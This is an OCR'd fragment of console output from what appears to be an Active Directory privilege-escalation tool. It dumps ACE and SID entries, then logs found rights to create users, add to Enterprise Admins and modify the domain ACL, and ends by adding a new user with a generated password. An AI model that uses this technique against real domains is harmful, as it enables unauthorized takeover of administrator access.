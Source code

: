 }<br/>
TypeName: {'ACCESS_ALLOWED_ACE'}<br/>
<br/>
ACE<br/>
AceType: {0}<br/>
AceFlags: {2}<br/>
AceSize: {36}<br/>
AceLen: {32}<br/>
<br/>
Ace:{<br/>
<br/>
  Mask:{<br/>
    Mask: {983551}<br/>
  }<br/>
<br/>
  Sid:{<br/>
    Revision: {1}<br/>
    SubAuthorityCount: {5}<br/>
<br/>
    IdentifierAuthority:{<br/>
      Value: {b'\x00\x00\x00\x00\x00\x05'}<br/>
    }<br/>
    SubLen: {20}<br/>
    SubAuthority: {b'\x15\x00\x00\x00&gt;\xbeUU\xaf\xee7\xf2$\x1e\x9a\xde\x07\x02\x00\x00'}<br/>
  }<br/>
}<br/>
TypeName: {'ACCESS_ALLOWED_ACE'}<br/>
<br/>
ACE<br/>
AceType: {0}<br/>
AceFlags: {18}<br/>
AceSize: {36}<br/>
AceLen: {32}<br/>
<br/>
Ace:{<br/>
<br/>
  Mask:{<br/>
    Mask: {983551}<br/>
  }<br/>
<br/>
  Sid:{<br/>
    Revision: {1}<br/>
    SubAuthorityCount: {5}<br/>
<br/>
    IdentifierAuthority:{<br/>
      Value: {b'\x00\x00\x00\x00\x00\x05'}<br/>
    }<br/>
    SubLen: {20}<br/>
    SubAuthority: {b'\x15\x00\x00\x00&gt;\xbeUU\xaf\xee7\xf2$\x1e\x9a\xde\x07\x02\x00\x00'}<br/>
  }<br/>
}<br/>
TypeName: {'ACCESS_ALLOWED_ACE'}<br/>
<b>[*] User privileges found: Create user<br/>
</b><b>[*] User privileges found: Adding user to a privileged group (Enterprise Admins)</b><br/>
[*] User privileges found: Modifying domain ACL<br/>
[-] New user already added. Refusing to add another<br/>
[-] Unable to escalate without a valid user.<br/>
[-] New user already added. Refusing to add another<br/>
[-] Unable to escalate without a valid user, aborting.<br/>
^C                    <br/>
<br/>
<br/>
<b>Adding new user with username: fCbvpBvkqG and password: 6^K`@U3,)&quot;w.K5&quot;</b><br/>
<br/>